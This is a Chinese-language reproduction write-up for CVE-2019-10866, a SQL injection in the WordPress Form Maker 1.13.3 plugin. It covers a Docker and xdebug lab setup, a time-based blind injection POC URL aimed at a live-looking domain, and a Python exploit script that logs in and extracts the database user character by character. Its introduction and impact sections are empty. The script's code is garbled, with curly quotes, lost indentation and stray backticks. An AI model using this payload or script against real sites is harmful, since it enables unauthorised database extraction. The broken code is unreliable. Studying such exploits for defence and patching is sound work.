```yaml
---
title: （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
id: zhfly3249
---
```


# （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

```
FROM medicean/vulapps:base_lamp_php7

RUN pecl install xdebug `COPY php.ini /etc/php/7.0/apache2/

COPY php.ini /etc/php/7.0/cli/` 
```

docker-compose文件:

```
version: '3'
services:
  lamp-php7:
    build: .
    ports:
      - "80:80"
    volumes:
      - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
      - "/Users/mengchen/Security/Code Audit/tmp:/tmp" 
```

php.ini中xdebug的配置

```
[xdebug]
zend_extension="/usr/lib/php/20151012/xdebug.so"
xdebug.remote_enable=1
xdebug.remote_host=10.254.254.254
xdebug.remote_port=9000
xdebug.remote_connect_back=0
xdebug.profiler_enable=0
xdebug.idekey=PHPSTORM
xdebug.remote_log="/tmp/xdebug.log" 
```

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

```
sudo ifconfig lo0 alias 10.254.254.254 
```

PHPStorm也要配置好相对路径:

![image](../img/59b80a4c5f9f72d5759f82d9c914c1f8.png)

插件下载地址:

```
https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip 
```

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

```
http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b 
```

Python脚本，修改自exploit-db

```
#coding:utf-8
import requests
import time

vul_url = “[http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=](http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=)”

S = requests.Session()

S.headers.update({“User-Agent”: “Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0”, “Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”, “Accept-Language”: “zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3”, “Referer”: “[http://127.0.0.1/wp-login.php?loggedout=true](http://127.0.0.1/wp-login.php?loggedout=true)”, “Content-Type”: “application/x-www-form-urlencoded”, “Connection”: “close”, “Upgrade-Insecure-Requests”: “1”})

length = 0

TIME = 3

username = “admin”

password = “admin”

def login(username, password):

data = {

“log”: “admin”,

“pwd”: “admin”,

“wp-submit”: “\xe7\x99\xbb\xe5\xbd\x95”,

“redirect_to”: “[http://127.0.0.1/wp-admin/](http://127.0.0.1/wp-admin/)”,

“testcookie”: “1”

}

r = S.post(‘[http://127.0.0.1/wp-login.php](http://127.0.0.1/wp-login.php)’, data=data, cookies = {“wordpress_test_cookie”: “WP+Cookie+check”}) `def attack():

flag = True

data = “”

length = 1

while flag:

flag = False

tmp_ascii = 0

for ascii in range(32, 127):

tmp_ascii = ascii

start_time = time.time()

payload = “{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b”.format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)

#print(payload)

r = S.get(payload)

tmp = time.time() - start_time

if tmp >= TIME:

flag = True

break

if flag:

data += chr(tmp_ascii)

length += 1

print(data)

login(username, password)

attack()` 
```

![image](../img/372d323b498e85ad75fb338c30feaf99.png)